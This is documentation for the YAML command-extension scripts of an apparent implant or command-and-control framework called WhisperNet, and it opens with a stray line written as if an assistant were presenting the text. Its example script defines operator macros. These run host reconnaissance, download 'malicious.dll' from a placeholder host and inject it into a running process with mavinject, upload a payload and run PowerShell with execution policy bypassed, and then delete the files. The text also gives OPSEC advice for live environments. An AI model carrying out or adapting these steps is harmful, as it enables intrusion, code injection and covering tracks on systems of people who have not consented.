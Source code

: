 Here's an updated version of the documentation that includes the **new format and behavior** while keeping it **high-level and user-friendly**:  

---

# **Command Extension Scripts**

WhisperNet allows you to extend commands using a **YAML-based** scripting system. This provides a structured way to define automated, multi-step actions that can be executed sequentially.

Think of it as a **macro-style automation system**—you define a command, list its steps, and WhisperNet handles execution.

**Dev Note**: This scripting approach is mostly due to my lazyness, rather than hardcoding every possible command into the agent, a minimal set of core commands is supported, and these scripts provide the flexibility to extend and adapt them as needed.

---

## **Example Script**
```yaml
commands:
  - name: recon
    description: "Gather system information"
    steps:
      - action: shell
        args: ["whoami /all"]

      - action: shell
        args: ["ipconfig /all"]

      - action: shell
        args: ["netstat -ano"]

  - name: mav_inject_dll
    description: "Download and inject a DLL into a running process"
    steps:
      - action: sleep
        args: [1]

      - action: get_file
        args: ["http://someip/malicious.dll", "C:\\malicious.dll"]

      - action: start-process
        args: ["mavinject", "<PID>", "/INJECTRUNNING", "C:\\malicious.dll"]

      - action: sleep
        args: [60]

  - name: deploy_payload
    description: "Upload and execute a payload"
    steps:
      - action: upload
        args: ["C:\\temp\\payload.bin", "/var/www/html/payload.bin"]

      - action: shell
        args: ["powershell -ExecutionPolicy Bypass -File C:\\temp\\payload.ps1"]

  - name: clean_up
    description: "Remove temporary files"
    steps:
      - action: shell
        args: ["del /Q C:\\temp\\payload.bin"]

      - action: shell
        args: ["del /Q C:\\temp\\payload.ps1"]
```

---

## **What’s New?**
✅ **Standardized Command Format:**  
- Each command now includes a **name**, **description**, and a list of **steps**.  

✅ **Step-Based Execution:**  
- Instead of grouping actions under a single command, each **step** is treated as an independent execution unit.  

✅ **Arguments are Cleaner:**  
- Arguments are now defined as **lists**, ensuring they’re correctly handled across different execution environments.  

✅ **Commands Are Fully Dynamic:**  
- Each step is processed **individually**, meaning commands can be **logged, modified, or even re-ordered** before execution.  

---

## **How It Works**
1. **Each command** in the script has a name and description.  
2. **Each step** within a command defines an **action** and **arguments**.  
3. When executed, WhisperNet **processes steps one at a time**, ensuring reliability and flexibility.  
4. Arguments are automatically **formatted** before execution (e.g., `"get_file http://someip/malicious.dll C:\\malicious.dll"`).  

---

## **Operational & OPSEC Considerations**
- **Script Changes Are Instant**  
  - You don’t need to restart anything—modifying the YAML script applies changes **immediately** on the next execution.  

- **Minimal OPSEC Footprint for the Script Itself**  
  - The script itself has no impact on OPSEC. However, the **commands inside** will affect OPSEC based on how they’re executed.  

- **Safer Execution Flow**  
  - By processing each **step separately**, you gain better control over execution—allowing for **logging, monitoring, and debugging** before running high-risk commands.  

---

## **Why Use This?**
🚀 **Faster Workflow** – Automate common recon, execution, and cleanup steps.  
⚡ **Dynamic Control** – Modify scripts in real-time without restarting processes.  
🔧 **Modular & Expandable** – Easily add new commands and steps as needed.  
🔒 **More OPSEC-Aware** – Provides better visibility into what’s running at each step.  

---

This updated system makes **command execution more structured, flexible, and safer to use in live environments** while ensuring WhisperNet remains **dynamic and adaptable**. 
